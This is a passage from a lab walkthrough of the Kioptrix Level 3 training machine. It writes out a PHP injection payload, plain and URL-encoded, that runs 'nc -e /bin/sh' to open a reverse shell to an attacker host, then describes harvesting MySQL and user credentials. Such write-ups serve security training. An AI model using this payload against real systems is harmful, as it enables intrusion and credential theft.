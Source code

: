 Searching exploit-db for suitable exploit:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/exploit-db.png?raw=true)

Looking through the source code to see how the exploit works and how the payload
is crafted (notice variable stub and variable sploit):

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/Looking%20Through.png?raw=true)

From this we deducted that payload comes after ‘); and between \${payload}
characters.

We can now craft our own malicious payload via URL.

The payload is the following: ');\${system('nc -e /bin/sh 192.168.20.144
443')};\#

First the payload has to be url encoded:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/URL%20encoded.png?raw=true)

Next we append our encoded payload to the url after page=index.

<http://kioptrix3.com/index.php?page=index%27%29%3B%24%7Bsystem%28%27nc+-e+%2Fbin%2Fsh+192.168.20.144+443%27%29%7D%3B%23>

After starting netcat listener on port 443 the shell is obtained, and the shell
is upgraded to TTY shell via python:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/netcat.png?raw=true)

Privilege Escalation
--------------------

Enumerating operating system version and kernel version

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/enumerating%20operating.png?raw=true)

Enumerating users present on the system:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/Enumerating%20Users%20present.png?raw=true)

Enumerating web server directory for MySQL credentials:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/enumerating%20web%20server%20MYSQL.png?raw=true)

As per screenshot below, MySQL credentials for root have been discovered:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/mysql%20credentials.png?raw=true)

Enumerating MYSQL database:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/EnumeratingMySQL.png?raw=true)

Discovering credentials for users dreg and loneferret:

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%203/Images/dreg&ferret.png?raw=true)
